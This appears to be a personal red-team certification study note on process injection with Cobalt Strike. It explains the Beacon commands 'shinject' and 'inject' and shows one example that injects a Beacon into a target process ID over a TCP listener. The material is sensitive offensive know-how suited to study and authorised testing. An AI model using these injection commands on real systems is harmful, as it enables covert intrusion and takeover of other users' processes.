 
Process injection allows us to inject arbitrary shellcode into a process of our choosing.  You can only inject into processes that you can obtain a handle to with enough privileges to write into its memory.  In a non-elevated context, which usually limits you to your own processes.  In an elevated context, this includes processes owned by other users.

Check [[Executing a Beacon vs Process Injection]] for a clear distinction between the two.

## 🖊️ via Cobalt Strike

Beacon has two main injection commands - `shinject` and `inject`.


#### 📔 shinject

`shinject` allows you to inject any arbitrary shellcode from a binary file on your attacking machine. 

####  📗 inject

`inject` will inject a full Beacon payload for the specified listener.
Example, injecting a process and using a TCP listener to receive the call:

```
beacon> inject 4464 x64 tcp-local
[*] Tasked beacon to inject windows/beacon_bind_tcp (127.0.0.1:4444) into 4464 (x64)
[+] established link to child beacon: 10.10.123.102
```

- 4464 is the target PID.
- x64 is the architecture of the process.
- tcp-local is the listener name.

The command will also automatically attempt to connect to the child if a P2P listener is used.  The resulting Beacon will run with the full privilege of the user who owns the process.

![[injection.png]]


### ⚠ Opsec




### Properties
---
📆 created   {{14-02-2024}} 10:16
🏷️ tags: #redteam #crto 

---

